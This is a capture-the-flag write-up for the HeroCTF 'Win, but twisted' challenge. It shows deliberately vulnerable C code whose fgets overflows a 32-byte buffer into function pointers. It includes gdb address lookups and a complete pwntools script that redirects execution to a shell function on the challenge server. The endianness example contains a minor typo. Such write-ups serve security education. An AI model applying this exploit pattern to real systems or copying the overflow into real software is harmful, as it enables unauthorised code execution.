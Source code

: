# Win, but twisted

#### So we got two files
- [WinButTwisted.c](files/WinButTwisted.c) (source code)
- [WinButTwisted](files/WinButTwisted) (binary file)

#### and this message :

```
Just a little warm up, but hey, without the twist it would've been too simple.
Get the flag from the server.

Challenge : nc pwn.heroctf.fr 9003

Format : Hero{}

Author : iHuggsy
```
#

#### First thing we do is to run the program :
```console
$ ./WinButTwisted 
What would a hero say ?
>>> Hello
It looks like that s something a Hero would say
Please keep being one. :)
```

#### by also testing its limits :
```console
$ ./WinButTwisted 
>>> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Erreur de segmentation (core dumped)
```
#### We therefore understand that the size of the input buffer is not protected against buffer overflow attacks. 

#

#### To explain quickly, the buffer overflow works by overflowing the stack and will, by a function return, overwrite the old value of EIP (instruction pointer) and will therefore jump to the address we have injected.

![buffer overflow explanation image](images/buffer_overflow_schema.png "buffer overflow explanation")

#

#### To go further we can look at several other information like:
- the basic information of the file :
```
$ file WinButTwisted
WinButTwisted: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=30d5731a2385816deab25ce8684e2de08b24846f, for GNU/Linux 4.4.0, not stripped
```
- the exif data of the file to see the order in which the memory addresses are encoded :
```
$ exiftool WinButTwisted
ExifTool Version Number         : 11.88
File Name                       : WinButTwisted
Directory                       : .
File Size                       : 712 kB
File Modification Date/Time     : 2021:04:23 22:39:21+02:00
File Access Date/Time           : 2021:04:26 12:25:50+02:00
File Inode Change Date/Time     : 2021:04:23 22:42:06+02:00
File Permissions                : rwxrwxrwx
File Type                       : ELF executable
File Type Extension             : 
MIME Type                       : application/octet-stream
CPU Architecture                : 32 bit
CPU Byte Order                  : Little endian
Object File Type                : Executable file
CPU Type                        : i386

```

- if the stack is executable :
```console
$ readelf -l WinButTwisted | grep GNU_STACK
Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flag Align
GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW   0x10
```

#### With all this, we now know that :
- it is an ELF file
- it is statically linked (all library functions will be embedded in the binary file)
- it is not stripped (so variable/function names are kept, which will simplify our task)
- it is in Little Endian (order of writing bytes in memory, ex: 0xdeadbeef is written in memory \xef\xbexad\xde)
- the stack is not executable because there is no E flag (preventing the execution of code injected on the stack)

#

#### So now we read the C code on the file:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

int UNLOCKED = 0;

void set_lock()
{
    printf("Setting lock !");
    UNLOCKED = 1;
}

void shell()
{
    printf("In shell function ! ");
    if (UNLOCKED == 1)
    {
        printf("Getting shell ! ");
        setreuid(geteuid(), geteuid());
        system("/bin/sh");
    }

    
}

void hello_hero(int hero)
{
    printf("It looks like that's something a Hero would say\n");
}

void look_like()
{
    printf("Please keep being one. :)\n");
}

int main()
{
    int (*look)() = look_like;
    int (*hello)() = hello_hero;
    char buffer[32];

    printf("What would a hero say ?\n>>> ");
    fgets(buffer, 44, stdin);
    hello();
    look();

}
```

#### We quickly understand that the final goal is to run the shell() function. But to achieve this we can see that this requires the shell to be "unlocked" by first running the set_lock() function.

#### So we have our running order of things :
``` 
[make the buffer go over with A] [set_lock() address] [shell() address]
```

#### To find out how many A we have to put in to overflow the buffer, we look at the buffer size in the code. We have this :

```c
char buffer[32];
```

#### Now that we have the size of the buffer, all we need to do is find the addresses of shell() and set_lock(). To do this we will run gdb :

```console
$ gdb WinButTwisted
gef➤  info function shell 
All functions matching regular expression "shell":

Non-debugging symbols:
0x08049999  shell
gef➤  info functions set_lock 
All functions matching regular expression "set_lock":

Non-debugging symbols:
0x08049965  set_lock
```

#### Ok, now that we have all the information we need to solve the challenge we write ourselves a little Python script to flag the challenge

```python
#!/bin/python3

from pwn import remote, p32,log

r = remote('pwn.heroctf.fr', 9003)

#32 character a to fill buffer and overflow
payload = b'a' * 32
#the address of the set_lock function (0x08049965)
payload += p32(0x08049965)
#the address of the shell function (0x08049999)
payload += p32(0x08049999)
#displays the payload
print(payload)

r.recvuntil('>>>')
r.sendline(payload)
r.interactive()
```

#### And that's it, we get the flag : Hero{Tw1sT3D_w1N_FuNcTi0N}

```console
$ ./solver.py 
[+] Opening connection to pwn.heroctf.fr on port 9003: Done
b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaae\x99\x04\x08\x99\x99\x04\x08'
[*] Switching to interactive mode
 Setting lock !In shell function ! Hero{Tw1sT3D_w1N_FuNcTi0N}  [*] Got EOF while reading in interactive
$ 
$ 
[*] Closed connection to pwn.heroctf.fr port 9003
[*] Got EOF while sending in interactive
```